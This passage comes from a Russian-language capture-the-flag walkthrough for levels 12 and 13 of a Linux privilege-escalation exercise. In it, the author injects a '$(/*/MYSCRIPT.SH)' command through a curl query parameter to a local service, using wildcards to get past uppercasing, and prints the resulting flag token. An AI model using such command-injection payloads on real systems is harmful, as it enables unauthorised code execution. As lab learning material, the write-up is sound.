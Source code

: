 ```sh
getfacl .
# ||
# \/
# default:user:flag12:r-x
# default:group:flag12:r-x

chmod 777 .
setfacl -m u:flag12:rwx,group:flag12:rwx .

curl 127.0.0.1:4646?x='$(/home/user/level12/MYSCRIPT.SH)'
```
не сработает ))
потому что путь будет переведен в верхний регистр

4. wildcard * поможет. \
На большое количество звезд можно получить ошибку
```sh
ls -l /*/*/*/*/*/*/*/
# ||
# \/
# bash: /usr/bin/ls: Слишком длинный список аргументов
```
Закидываю скрипт в tmp и
```sh
curl 127.0.0.1:4646?x='$(/*/MYSCRIPT.SH)'
cat /tmp/tkn2
# ||
# \/
# Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```
можно еще так: 
```sh
curl 127.0.0.1:4646?x='$(/???/MYSCRIPT.SH)'

cat /tmp/tkn
# ||
# \/
# Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```

```sh
su level13
Password: g1qKMiRpXf53AWhDaU7FEkczr
```

#
###### [вернуться к содержанию](#content)
<a name="lvl13"></a> 
# level13

1. Проверяю директорию и ее содержимое
```sh
ls -la
# ||
# \/
# -rwsr-sr-x 1 flag13  level13 7303 Aug 30  2015 level13

./level13 
# ||
# \/
# UID 2013 started us but we we expect 4242
```
